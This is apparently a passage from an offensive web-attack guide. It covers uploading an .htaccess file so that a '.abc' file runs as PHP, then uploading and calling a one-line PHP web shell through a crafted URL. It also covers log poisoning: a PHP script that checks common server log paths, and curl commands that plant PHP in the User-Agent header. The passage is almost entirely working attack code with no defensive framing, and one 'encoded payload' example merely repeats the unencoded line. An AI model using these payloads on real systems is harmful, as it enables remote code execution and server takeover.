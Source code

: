 ### 2.3 .htaccess Upload Strategy

1. **Upload .htaccess first**
2. **Upload shell with allowed extension**
3. **Access via crafted URL**

Example:
```apache
# .htaccess content
AddType application/x-httpd-php .abc

# Upload shell.abc
<?php system($_GET['cmd']); ?>

# Access: http://site.com/uploads/shell.abc?cmd=id
```

## 3. LOG POISONING TECHNIQUES

### 3.1 Finding Log Files

```php
<?php
// Find log files
$common_logs = [
    '/var/log/apache2/access.log',
    '/var/log/httpd/access_log', 
    '/var/log/nginx/access.log',
    '/var/log/apache/access.log',
    '/usr/local/apache2/logs/access_log',
    '/var/www/logs/access.log',
    '/var/log/sshd.log',
    '/var/log/mail.log',
    '/var/log/vsftpd.log'
];

foreach($common_logs as $log) {
    if(file_exists($log)) {
        echo "Found: $log\n";
    }
}
?>
```

### 3.2 Poisoning Methods

#### User-Agent Poisoning
```bash
curl -H "User-Agent: <?php system(\$_GET['c']); ?>" http://target.com/

# With encoded payload
curl -H "User-Agent: <?php system(\$_GET['cmd']); ?>" http://target.com/
```
